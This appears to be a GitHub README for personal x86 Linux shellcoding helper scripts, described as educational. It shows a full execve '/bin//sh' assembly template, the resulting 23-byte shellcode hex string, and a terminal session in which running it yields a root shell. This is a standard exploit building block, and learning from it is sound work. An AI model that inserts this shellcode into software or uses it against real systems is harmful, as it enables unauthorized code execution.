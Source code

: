 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.  For educational purposes, created with intention of teaching myself assembly a bit more every day.  

- Plans to integrate everything together in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.
